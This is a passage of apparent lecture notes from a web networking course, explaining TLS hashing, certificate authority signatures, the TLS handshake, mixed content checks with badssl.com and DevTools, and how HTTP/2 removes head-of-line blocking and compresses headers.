[](../assets/images/cs3-10.jpg)

That's why asymmetric encryption is also called public key encryption.

### 3.7 TLS: Hashing
So we have a look at encryption, but remember that TLS is made up of two parts--encryption and hashing.

Hashing is the process of transforming data into a short representation of the original data.

[](../assets/images/cs3-11.jpg)

The smallest change in the original data will have enormous changes in the hash.

[](../assets/images/cs3-12.jpg)

If two documents yield the same hash value, they are very very likely to be the same document.

There are a couple of things we care about with hashing functions.

1. It should be impossible to revert the conversion process.
  Meaning once data has been converted into a hash, it can be unconverted back into the original data.<br>
  [](../assets/images/cs3-13.jpg)
2. It should be just as impossible to find a different document yielding an identical hash value.<br>
  [](../assets/images/cs3-14.jpg)

One of the most common hashing functions is SHA, which exists in multiple flavors like SHA-256, or SHA-512, where the number says how big the output of the hash is, in bits.

No matter how big the document is, if you pass in, you will always get 256 bits as output when you are using SHA-256.

### 3.8 Quiz: Hashing Quiz
You just saw Surma playing with this cool little hashing project. For this quiz, you're going to use the same project to get some hands-on experience with different hashing functions.

[](../assets/images/cs3-15.jpg)

After launching the provided server and loading the URL it provides, you should see the project. Then type out some text to see what the different hashing functions produce. When you've typed out your text, enter the hashes in the provided text boxes.

[](../assets/images/cs3-16.jpg)

For example, paste the result from the SHA256hashing function here.Once you've entered the hash for each one of these functions,alter the text a little, and paste the new SHA256 hash here.

#### 3.8 Solution
With this text, the SHA1 hashing function gave me this. SHA256 resulted in this, and here's what SHA512 produced.

[](../assets/images/cs3-17.jpg)

Each one of these hashing functions started with the same text, but the hashes that were produced are completely different.

Removing just one character produced entirely different hashes.

[](../assets/images/cs3-18.jpg)

As you can see, if anyone tries to tamper with even one character, they'll end up changing the entire hash, so it's easy for browsers and servers to see this difference and know that the data has been altered.

### 3.9 Cert Authority Signatures
Now that we have a good grasp on TLS, let's talk about signatures. I mentioned certificate authorities earlier and the job is to sign certificates. But what does it mean? And why would anyone want a signed certificate?

When we say someone has signed a document, we mean that the certificate authority has reviewed and verified the contents of that document.

The purpose is to have some kind of proof that the document was seen, or even created by that entity. Just like signing your name on a document is legal proof that you saw that document, a server can do the same thing with a digital signature.

When a server signs a document and encrypts it with their private key, they give that back as a signed document. Since only the holder of the private key is able to encrypt documents, you know the document you received is exactly the same as the one the server sent.

[](../assets/images/cs3-19.jpg)

However, documents can become fairly large. Think of DVD images, for example. And encrypting and decrypting takes a long time with asymmetric cyphers. That's why instead of encrypting the entire document itself, just the hash of the document is encrypted.

[](../assets/images/cs3-20.jpg)

If you want to check if the signature is valid, you would decrypt the signature and hash the document yourself to see if those two values match. This way we know that the document we received is exactly the same as when the server sent it. If the document was changed mid-flight, the hash would not match the one provided by the server as a signature. This is called an invalid signature.

### 3.10 The TSL Handshake
We now have the tools to encrypt data asymmetrically and to assign data. I've said these are the building blocks of TLS and now I will prove it to you.

Let's go through the process of browser users to set up a TLS-encrypted connection step by step. I will still cut a few corners for simplicity, but nothing integral to the concept.

The first step is having the server send you a certificate. The certificate contains the public key of the server, some additional information like the domain the certificate is for and the signature by a certificate authority.

[](../assets/images/cs3-21.jpg)

The client checks if the domain is correct and also checks if the authority signature is valid.

As we already explored earlier, all browsers have a collection of certificate authorities including their public keys saved locally, so it is trivial to check if the signature is valid.

[](../assets/images/cs3-22.jpg)

Now the client generates a random key for symmetric encryption to be used from here on in.

[](../assets/images/cs3-23.jpg)

The browser encrypts the random key with a server's public key and sends it over.

[](../assets/images/cs3-24.jpg)

This has two benefits. Symmetric encryption is 

- much faster
- more efficient
- scales better to big data compared to asymmetric encryption.

But more importantly, the server will only be able to continue communicating if it is truly in possession of the private key and can decrypt the new random key.

[](../assets/images/cs3-25.jpg)

This effectively validates the server's identity.

If all of this succeeds, if your last connection has successfully been established then the HTTP protocol can take over.

At this point, you will get the green padlock symbol in your browser's URL bar.

### 3.11 Quiz: SSL Error
In the previous scenario, only two things could have gone wrong. Either the certificate authority's signature on the certificate turns out to be invalid or the server wasn't able to communicate after switching to symetric encryption.

[](../assets/images/cs3-26.jpg)

In reality, there's a whole lot more that can go wrong. Certificates have an expiration date, so they can go bad. They prescribe the set of hash and symmetric encryption functions they support, some of which have been proved to be weak over the years.

[](../assets/images/cs3-27.jpg)

Sometimes the certificate is valid. But the rest of the server setup is not.

A great site to see how the browser behaves when the TLS connection has some issues is badssl.com.

[](../assets/images/cs3-28.jpg)

Bad SSL has its own valid certificate but it also has intentionally invalid certificates and invalid setups so we can see what the browser does in different situations.

Let's check out sha1-2016. Oh no, we've lost our green lock. Clicking this icon gives us more information about the connection. Clicking the link gives us specific details about the certificate being used.

[](../assets/images/cs3-29.jpg)

For this quiz, I want you to use the bad SSL website to figure out which setups cause Chrome to deny access to the web site.

Will it happen with:

- an expired certificate?
- a certificate from another host?
- mixed content?
- incomplete chain?
- SHA246?

#### 3.11 Solution
Each link's background color kind of indicates what will happen.

[](../assets/images/cs3-28.jpg)

Red means it won't work. Green means it will, and other colors, like orange, give questionable results.

- A certificate that has expired or one for a wrong host both deny access.
- Mixed content, incomplete chain, and Sha256 all allow the user through, but not all of these actually give you the green lock.
 
So these are the correct answers.

[](../assets/images/cs3-30.jpg)

### 3.12 Mixed Content
If our index document is served over HTTPS, great. But what about the site's assets? Are they served over HTTPS as well?

[](../assets/images/cs3-31.jpg)

A fast way to break that beautiful green lock is having your assets served over regular HTTP. When this happens, the site ends up in a state called mixed content.

[](../assets/images/cs3-32.jpg)

Mixed content occurs when you opena website that is supposed to be delivered over HTTPS, but includes resources from non-TLS secured origins like:

- images
- iframes
- style sheets
- scripts

A popular mistake is pulling in jQuery from a non-TLS enabled CDN.

[](../assets/images/cs3-33.jpg)

Depending on the type of research that is being included over a non-secure channel, the consequences might differ.

1. It might cost you your green padlock, but still remain functional.
2. The resource might get blocked or break your page
3. It might even get the horrible red padlock of shame.

The behavior differs across different browsers so you should definitely avoid it and check a website for mixed content.

In fact, Google recommends that you surf all your assets over HTTPS. This way you'll avoid mixed content warnings and your site and its assets will be transferred securely.

### 3.13 Quiz: Mixed Content
When working locally, developers often resort to using self-signed certificates. These certificates refer to themselves as their own certificate authority since
they are self signed. They don't provide any kind of authentication and your browser will visibly complain. It will give you a red padlock but it will let you test if your website has mixed content.

So you need to launch the binary for this project and load the URL it provides in your browser.

You might notice that when you launch this server it automatically generates a
self-signed certificate for you. Since this is a self-signed certificate you might see an error page. It's safe to proceed so click on advanced and then click on the proceed link down at the bottom.

You'll see the Udacity logo has been split up into multiple tiles. Are there any  mixed content violations? And if so, which tile is causing the problem?

#### 3.13 Solution
So while the page itself is loaded over HTTPS, there's a tile that's being loaded over HTTP, which causes a mixed content warning.

There are actually a couple of ways to solve this problem. The easiest way is to check the console. The tile in question is x 10 y 3.

Another way is to check out the security pane.

[](../assets/images/cs3-34.jpg)

Down here is the mixed content warning. This link switches us to the network pane and adds the mixed content filter.

Using DevTools, it's incredibly easy to diagnose mixed content issues. If you're developing anything on the web, you should always have the DevTools open.

### 3.14 Outro
Security is an important but sometimes intimidating aspect of web development. If you didn't know what HTTPS was before this lesson, you should feel much more comfortable with it now.

Most hosting services and CDNs have support for TLS nowadays. And with more and more browser APIs being enabled for HTTPS websites only, you should always use HTTPS for your users' and your own sake.

In the next lesson, we'll take a look at the new HTTP/2 standard and what that means for you and your project's build steps.

## 4. HTTP/2
### 4.1 HTTP/2 Intro
HTTP has been around since the early '90s.

[](../assets/images/cs1-25.jpg)

Between just 2010 and 2015 the amount of data transferred for a single web page has tripled. The number of requests necessary to get all the data is on a steady rise as well.

HTTP is used for things and in conditions that are very different from what it was designed for. Design choices that made complete sense back then are now becoming a burden both in terms of development and performance.

Some current best practices like concatenating all your JavaScript into a single file solely exist to work around the shortcomings of HTTP/1.

This is where HTTP/2 comes in. While also being backwards compatible, it solves the biggest issues HTTP/1 has.

We will learn how HTTP/2 is different from HTTP/1 and how these differences help make your apps better.

### 4.2 HTTP/1 Issue: Blocking
The average number of requests needed to properly display a website rises constantly and has recently risen over 100.

[](../assets/images/cs4-1.jpg)

That means on average, a website requires over 100 requests to display correctly. Things are getting a little crazy.

Remember that HTTP/1 does not work well with lots of requests. Fortunately, HTTP/2 too has come to the rescue. We'll look at some problems of HTTP/1 and how HTTP/2 is solving them.

One of the reasons we have so many requests is because of **head-of-line blocking**. We talked about this earlier, but it's so important let's briefly go over it again.

[](../assets/images/cs4-2.jpg)

Head-of-line blocking is when one request is blocking others from completing.

A browser will open at most six connections to the same server. That means at most six requests can be in flight simultaneously.

[](../assets/images/cs4-3.jpg)

At the very least, you'll have to wait for the request to be sent and then the response to be sent back. These two together are called the round trip and the round trip time can take between 20 to 50 milliseconds on a good connection.

[](../assets/images/cs4-4.jpg)

Let's do some quick math. Let's say a site needs to send 100 requests to load completely. We can handle six requests in parallel, which means ideally each connection will need to make 17 requests to download all 100 requests.

[](../assets/images/cs4-5.jpg)

With each request having a round trip time averaging roughly 35 milliseconds, this yields 525 milliseconds. About half a second of waiting--of doing nothing. And this assumes that actually transferring the requested file doesn't take any time at all. If the file being transferred is large,then this number will become a lot bigger.

[](../assets/images/cs4-6.jpg)

This round trip time is an average.If there's an unstable or slow internet connection, things only get worse.

Head-of-line blocking is a disaster to good loading performance of a website. With HTTP/2, we don't have to worry about head-of-line blocking.

### 4.3 HTTP/1 Issue: Uncompressed Headers
To reduce the time it takes to send data, a lot of websites compress their assets with gzip or other compression algorithms that work on the web.

The [HTML 5 boilerplate](https://github.com/h5bp/html5-boilerplate) project uses the gzip compression.

[](../assets/images/cs4-7.jpg)

Compression of the data is great, but the request and response headers are still being sent uncompressed. When you think about it, that doesn't make a lot of sense.

They are plain text, which makes them highly compressible. 

[](../assets/images/cs4-8.jpg)

Also, they repeat a lot across requests. The host header's always the same, the cookies are the same, and so are some other headers.

[](../assets/images/cs4-9.jpg)

In Google's research paper, they state that on average header stake up about 800 bytes. Let's look at the potential savings we could have.

If a site made 100 requests, roughly 80 kilobytes of data would be taken up by the headers, and most of that would be redundant.

[](../assets/images/cs4-10.jpg)

We'd save a lot of space if we could compress the headers. Unfortunately, we can't do that with HTTP1, but with HTTP2, we can.

### 4.4 HTTP/1 Issue: Security
A completely different aspect that HTTP/2 tackles is security.

E-commerce has become the norm and so has handling sensitive data like credit cards and contracts. It's fair to call it gross negligence if websites handled this kind of data without TLS.

That's why TLS is a required part of the specification for HTTP/2.

There is an unencrypted version of HTTP/2, but all major browsers have opted out of supporting it. We've talked about TLS before and you'll be glad to hear that nothing's changed when using TLS with HTTP/2.

But how does HTTP/2 solve the other problems, how does it resolve head-of-line blocking, and how does header compression work in HTTP/2?

Let's find out.

### 4.5 HTTP/2 Improvements
You just saw some of the flaws with HTTP/1, and were told that HTTP/2 would solve them. But how does it do it?

Well, take out your note-taking pencil, because I'm about to show you the wonders of HTTP/2.

Remember the human readability of requests and response headers? Well, that's got to go.

[](../assets/images/cs4-11.jpg)

It's the first step to improve performance with HTTP/2. It was nice while it lasted, but nobody is really benefiting from the plain text approach that HTTP/1 took. We are wasting precious bytes by spelling things out in text form when a single bit is sufficient.

Don't worry, though. Tools like Wireshark or DevTools will still let you see headers, even with HTTP/2.

The second big problem HTTP/2 solvesis head-of-line blocking. It does this through a technique called multiplexing.

Multiplexing is a fancy sounding term that means combining multiple signals into a new single signal.

> **multiplexing** - a system or signal involving simultaneous transmission of several messages along a single channel of communication

With HTTP/2, we now have one connection instead of six. That seems like a terrible step backwards at first, but we are using the single connection differently than HTTP/1 would have.

[](../assets/images/cs4-12.jpg)

What used to be a dedicated connection in HTTP/1 is now called a stream, and all streams share that single connection. 

[](../assets/images/cs4-13.jpg)

These streams are split up into frames and are being multiplexed onto that single connection.

[](../assets/images/cs4-14.jpg)

When one stream is blocked, another stream can take over the connection and make good use of what would have been idle time.

Head-of-line blocking is gone.

Lastly, HTTP/2 takes care of header data being uncompressed. With HTTP/2, headers are not just being compressed with GZip, but the engineers came up with an HTTP/2 compression that is tailored towards the specific structure of headers and the multiplexing feature of HTTP/2.

[](../assets/images/cs4-15.jpg)

All streams not only share the connection, but also the compressor.

This means a header never has to be sent twice, since the compressor recognizes that it's been sent before, and sends a reference instead.

[](../assets/images/cs4-16.jpg)

For example, cookies are really long headers. So it is an enormous advantage to insert the same cookie header as three requests ag, instead of the actual value.

I won't go into the intricacies of this compression algorithm but if you're interested in how it works, you can check it out below.

- [HPACK - Header Compression for HTTP/2](https://http2.github.io/http2-spec/compression.html)

